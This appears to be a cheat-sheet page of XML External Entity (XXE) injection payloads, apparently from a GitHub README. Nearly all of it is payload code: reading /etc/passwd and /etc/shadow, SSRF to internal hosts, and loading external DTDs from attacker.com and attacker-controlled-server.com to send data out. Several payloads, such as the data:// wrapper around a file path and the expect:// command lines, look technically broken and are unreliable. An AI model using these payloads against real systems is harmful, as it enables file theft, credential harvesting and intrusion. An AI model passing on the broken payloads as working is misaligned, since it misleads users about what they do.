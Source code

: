- Injecting a local file on the server, such as /etc/passwd, into the XML document:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

- Injecting a remote file, such as a file hosted on a malicious server controlled by the attacker, into the XML document:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://attacker.com/malicious.xml" >]>
<foo>&xxe;</foo>
```

- Injecting a server-side request forgery (SSRF) attack to access internal network resources:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://internal.company.com/secret.php" >]>
<foo>&xxe;</foo>
```

- Read the `/etc/services` files from the server's file system

```
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/services" >]>
<foo>&xxe;</foo>
```

- Read the `/etc/ssh/ssh_config` file from the server's file system

```
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/ssh/ssh_config" >]>
<foo>&xxe;</foo>
```

- A payload that reads the `/etc/shadow` file and extracts password hashes for all users on the system

```
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/shadow" >]>
<foo>&xxe;</foo>
```

- Connect to an internal server and receive a sensitive data (e.g. user login credentials)

```
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % dtd SYSTEM "http://attacker-controlled-server.com/xxe-dtd.dtd">
    %dtd;]>
    <foo>
        <user>
            &file;
        </user>
    </foo>
```

- Run a shell command on the server to gain access to command line. This payload uses the `php://` protocol handler to run a `ls` command on the server, which will list the contents of the current directory. The output of the command is then encoded using base64 and sent to the attacker-controlled server.

```
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=expect://ls">
    <!ENTITY % dtd SYSTEM "http://attacker-controlled-server.com/xxe-dtd.dtd">
    %dtd;]>
    <foo>
        <command>
            &data;
        </command>
    </foo>
```

- Connect to the internal server and download a file.

```
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY % data SYSTEM "expect://spawn scp attacker@attacker-controlled-server.com:/path/to/file.txt">
    <!ENTITY % dtd SYSTEM "http://attacker-controlled-server.com/xxe-dtd.dtd">
    %dtd;]>
    <foo>
        <command>
            &data;
        </command>
    </foo>
```

- Include a file from server's file system as a data URI

```
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY % data SYSTEM "data://text/plain;base64,file:///etc/passwd">
    <!ENTITY % dtd SYSTEM "http://attacker-controlled-server.com/xxe-dtd.dtd">
    %dtd;]>
    <foo>
        <file>
            &data;
        </file>
    </foo>
```
